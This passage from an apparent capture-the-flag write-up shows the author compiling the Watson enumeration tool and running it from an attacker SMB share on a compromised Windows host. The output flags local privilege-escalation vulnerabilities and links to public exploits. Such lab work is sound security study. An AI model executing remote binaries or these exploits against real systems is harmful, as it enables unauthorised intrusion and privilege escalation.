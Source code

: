 Now I'll go to Build --\> Build Watson. In the bottom Window I should
see:

![](/img/1550869614577.png)

I'll go to that path, and get a copy of the output exe, and transfer it
back to my Kali box and drop it in my `smb` folder.

#### Running It

Now I'll run it directly from the SMB share, just like I did `nc`:



    c:\Windows\Microsoft.NET\Framework>\\10.10.14.14\share\Watson.exe
    \\10.10.14.14\share\Watson.exe
      __    __      _
     / / /\ \ \__ _| |_ ___  ___  _ __
     \ \/  \/ / _` | __/ __|/ _ \| '_ \
      \  /\  / (_| | |_\__ \ (_) | | | |
       \/  \/ \__,_|\__|___/\___/|_| |_|

                               v0.1

                      Sherlock sucks...
                       @_RastaMouse

     [*] OS Build number: 7600
     [*] CPU Address Width: 32
     [*] Process IntPtr Size: 4
     [*] Using Windows path: C:\WINDOWS\System32

      [*] Appears vulnerable to MS10-073
       [>] Description: Kernel-mode drivers load unspecified keyboard layers improperly, which result in arbitrary code execution in the kernel.
       [>] Exploit: https://www.exploit-db.com/exploits/36327/
       [>] Notes: None.

      [*] Appears vulnerable to MS10-092
       [>] Description: When processing task files, the Windows Task Scheduler only uses a CRC32 checksum to validate that the file has not been tampered with.Also, In a default configuration, normal users can read and write the task files that they have created.By modifying the task file and creating a CRC32 collision, an attacker can execute arbitrary commands with SYSTEM privileges.
       [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_092_schelevator.rb
       [>] Notes: None.

      [*] Appears vulnerable to MS11-046
       [>] Description: The Ancillary Function Driver (AFD) in afd.sys does not properly validate user-mode input, which allows local users to elevate privileges.
       [>] Exploit: https://www.exploit-db.com/exploits/40564/
       [>] Notes: None.
